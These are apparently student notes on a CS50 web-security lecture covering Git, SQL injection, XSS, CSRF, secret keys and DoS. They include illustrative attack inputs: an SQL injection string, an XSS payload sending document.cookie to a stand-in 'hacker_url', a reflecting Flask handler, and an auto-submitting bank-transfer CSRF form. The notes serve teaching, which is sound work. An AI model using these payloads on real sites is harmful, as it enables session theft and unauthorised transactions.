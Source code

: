 # Security
2019-01-16

**Lecture 11 from CS50's Web Programming with Python and JavaScript by Havard University**

## Git
* Open-Source Software is vulnerable to malicious hackers.
* Private repository is also vulnerable when GitHub account is hacked.
* Two-Factor Authentication
* Sensitive information like a password or a credential can be exposed.

## HTML
* Users can be tricked into fake link
ex) `<a href="url1">url2</a>`

## Flask
* MITM(Man-in-the-Middle) attacks
### Cryptography
* Plaintext
* Ciphertext
* Secret-Key Cryptography
* Public-Key Cryptography (Public Key-Encrpytion), Private Key-Decryption)
ex) HTTPS
* Environment Variables
```
app.config["SECRET_KEY"] = "dHd1bnR5ZWlnaHQ" # Not secure way
app.config["SECRET_KEY"] = os.environ.get("SECRET_KEY")
```

## SQL
* Passwords must be encrypted. (Hashing)
* SQL Injection
ex) Password: 1' OR '1' = '1

## APIs
* Authentication
* API Keys
* Rate Limiting (ex: x number of requests per hour)
* Route Authentication

## JavaScript
* Cross-Site Scripting
```
@app.errorhandler(404)
def page_not_found(e):
    return "Not Found: " + request.path

# /<script>alert('hi')</script>
# /<script>doument.write('<img src="hacker_url?cookie="+document.cookie+">")</script>
```
* Most web browsers can detect XSS albeit not perfect.
* You can manually turn off XSS auditor by typing `chrome --disable-xss-auditor`

## Django
* Cross-Site Request Forgery
```
<body onload="document.forms[0].submit()">
    <form action="https://yourbank.com/transfer" method="post">
        <input type="hidden" name="to" value="brian">
        <input type="hidden" name="amt" value="2800">
        <input type="submit" value="Click Here!">
    </form>
</body>
```

## Testing, CI/CD
* Travis CI which has access to private repositories can be compromised, too.
* Third-party services can access your private information via Facebook, etc.

## Scalability
* DoS(Denial-of-Services) Attacts - by one client
* DDoS(Distributed Denial-of-Services) Attacts - by multiple clients
